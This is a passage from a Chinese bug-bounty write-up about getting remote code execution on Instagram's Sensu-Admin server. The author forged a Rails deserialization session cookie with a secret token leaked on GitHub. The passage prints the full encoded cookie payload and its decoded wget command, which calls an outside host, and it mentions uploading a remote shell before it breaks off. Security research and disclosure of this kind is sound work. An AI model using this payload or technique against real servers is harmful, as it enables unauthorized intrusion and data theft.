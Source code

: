 # 从反序列化漏洞到掌控帝国：百万美刀的Instagram漏洞

http://exfiltrated.com/research-Instagram-RCE.php

0x00 前言
=======

* * *

2012年，Blloberg在Facebook白帽子奖励计划的网站上发表了一片著名的文章，文章中提到：“如果Facebook出了价值百万美刀的漏洞,我们也愿意照单全付”。在本文开始之前，我想为骗点击量的文章标题向各位道个歉，不过Facebook之前放的豪言是我写这篇文章的重要背景。经过一番尝试和努力，我确实发现了一个价值百万美刀的Instagram漏洞，该漏洞可以用来获取Instagram的源代码，照片和SSL证书等。

0x01 绝佳线索
=========

* * *

去年，我曾对Facebook的安全性进行过一些小的测试，也取得了一些成果，所以我对于深入测试Facebook的整体业务安全性有着十分浓厚的兴趣。发现这个漏洞其实也要感谢我所在的公司能够允许我在非工作时间查找其他公司的漏洞，要不然根本没有这篇文章了。事情是这样的，我的一个朋友前段时间和我提到，他们正在测试作为Facebook漏洞奖励计划重要组成成分的Ins系统的安全性。他们发现Instagram存在一台有漏洞的Ruby服务器([https://sensu.instagram.com](https://sensu.instagram.com/))，我的朋友告诉我，这个漏洞已经被他提交到Facebook漏洞响应团队，漏洞分类是“内部管理后台对外”。在他向Facebook中提交的报告中提到，该后台可能存在一个Ruby密码重置漏洞由此可以被黑客利用登录进入后台，不过他并没有成功印证他的猜测。看到这个漏洞细节的第一眼，我就想起了CVE-2013-3221（[http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html](http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html)），不过鉴于他已经提交了这个漏洞，所以我朋友只是私下里让我帮他看看是不是能够深入利用这个线索，扩大漏洞影响，接触Instagram的核心数据。

0x02 Ruby(Rails)远程命令执行
======================

* * *

基于之前朋友的漏洞报告细节，我尝试着查找可以重置这个Ruby应用密码的漏洞。不过初步的测试效果并不理想，一般的登录页面并不接受数值“0”作为密码，而且我也不知道要用什么办法才能发送一封密码重置邮件。我发现，Instagram的这个后台可能是用了开源的Sensu管理系统，于是我谷歌了关键词“Sensu-Admin”，但是一无所获。看起来，貌似我朋友的推测并不行。

不过惊喜的是，我发现了这个应用在Github上面有源代码，在该项目的目录中，我发现了`secret_token.rb`中泄露了Rails的私钥。我第一反应是，Facebook的程序员不会傻到把在搭建自己后台应用的时候不更改私钥吧？不过我还是想试试，因为如果尝试成功的话，那我就可以伪造seesion cookies，然后登陆后台了。我前面也提到CVE-2013-3221（[http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html](http://ronin-ruby.github.io/blog/2013/01/28/new-rails-poc.html)），这篇文章的作者指出，不仅仅cookies可以被伪造，而且因为Ruby Rails的反序列化漏洞，攻击者甚至可以直接构造远程代码执行攻击。

在尝试反序列化漏洞测试Instagram这个业务之前，我首先在本地进行了测试，我是用了下面这个测试框架：  
[https://github.com/charliesome/charlie.bz/blob/master/posts/rails-3.2.10-remote-code-execution.md](https://github.com/charliesome/charlie.bz/blob/master/posts/rails-3.2.10-remote-code-execution.md)

结果出人意料的好，我成功在本地复现了漏洞。所以，我使用相同的步骤，结合刚刚在Github上的发现，我向Instagram的Sensu-Admin管理后台服务器发送了如下的cookie:

```
_sensu-admin_session=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQc6DkBpbnN0YW5jZW86CEVSQgY6CUBzcmNJIkFldmFsKCdzeXN0ZW0oIndnZXQgaHR0cDovL2V4ZmlsdHJhdGVkLmNvbS90ZXN0LWluc3RhZ3JhbSIpJykGOgZFVDoMQG1ldGhvZDoLcmVzdWx0--92c614a28526d03a1a31576bf4bb4c6026ef5e1f

```

通过精心构造的cookie，Instagram的服务器成功执行了我发送的代码，解密开来就是这样：

`"wget http://exfiltrated.com/test-instagram"`

所以，我建立了一个监听端口，然后上传了一个远程shell文件，结果如下：
